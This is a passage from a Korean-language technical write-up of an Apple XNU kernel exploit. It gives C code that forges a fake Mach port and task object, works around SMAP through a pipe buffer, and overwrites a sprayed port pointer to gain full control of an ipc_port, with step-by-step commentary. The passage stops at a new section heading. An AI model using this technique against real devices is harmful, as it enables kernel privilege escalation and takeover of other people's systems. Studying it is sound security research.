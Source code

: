 ```c
// second pipe, used for our fake port
    int port_fds[2] = {-1, -1};
    kern_return_t ret = pipe(port_fds);
    if (ret) {
        printf("[-] failed to create pipe\n");
        goto err;
    }

    // create fake port and fake task, put fake_task right after fakeport
    kport_t *fakeport = malloc(sizeof(kport_t) + 0x600);
    ktask_t *fake_task = (ktask_t *)((uint64_t)fakeport + sizeof(kport_t));
    bzero((void *)fakeport, sizeof(kport_t) + 0x600);

    fake_task->ref_count = 0xff;
    
    fakeport->ip_bits = IO_BITS_ACTIVE | IKOT_TASK;
    fakeport->ip_references = 0xd00d;
    fakeport->ip_lock.type = 0x11;
    fakeport->ip_messages.port.receiver_name = 1;
    fakeport->ip_messages.port.msgcount = 0;
    fakeport->ip_messages.port.qlimit = MACH_PORT_QLIMIT_LARGE;
    fakeport->ip_messages.port.waitq.flags = mach_port_waitq_flags();
    fakeport->ip_srights = 99;
    fakeport->ip_kobject = 0;
    fakeport->ip_receiver = ipc_space_kernel;

    //SMAP
    write(port_fds[1], (void *)fakeport, sizeof(kport_t) + 0x600);
    read(port_fds[0], (void *)fakeport, sizeof(kport_t) + 0x600);
    
    ...
    
    // align ip_kobject at our fake task, so the address of fake port + sizeof(kport_t)
    fakeport->ip_kobject = port_pipe_buffer + sizeof(kport_t);
```

이제 fake port를 사용하여 Pipe 버퍼에 존재하는 첫 번째 정상 포트를 교체한다.

마찬가지로 주의할 점은, SMAP 모드에서는 userland의 fakeport 주소가 아닌 port_pipe_buffer의 커널 주소를 써야 한다는 것이다.

이 시점에서 우리는 fakeport를 정상적인 포트 영역에 위치시켰고, 다시 말해 ipc_port 하나를 완전히 제어하게 된 것이다.

```c
// spraying worked, now the pipe buffer is filled with pointers to our target port
// overwrite the first pointer with our second pipe buffer, which contains the fake port
    write(pipefds[1], &port_pipe_buffer, 8);
```

### Mach OOL 메시지 수신하기

포트 핸들은 rights 정보를 포함하고 있기 때문에, 
우리가 수행한 변조는 Pipe 버퍼에 존재하는 첫 번째 포트의 핸들을 변경하게 된다.
